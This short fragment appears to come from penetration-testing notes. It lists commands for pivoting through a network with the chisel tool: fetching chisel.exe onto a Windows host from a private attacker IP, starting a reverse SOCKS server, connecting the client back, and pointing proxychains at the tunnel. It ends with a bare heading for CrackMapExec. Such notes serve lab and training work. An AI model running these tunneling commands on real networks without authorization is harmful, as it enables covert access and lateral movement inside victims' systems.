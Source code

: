 chisel
```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```

```
iwr http://192.168.45.167:8080/chisel.exe -outfile chisel.exe
```

```
chisel server -p 9999 --reverse
```

```
./chisel.exe client 192.168.45.167:9999 R:9000:socks
```

```
sudo vim /etc/proxychains.conf

socks5 127.0.0.1 9000
```

crackmap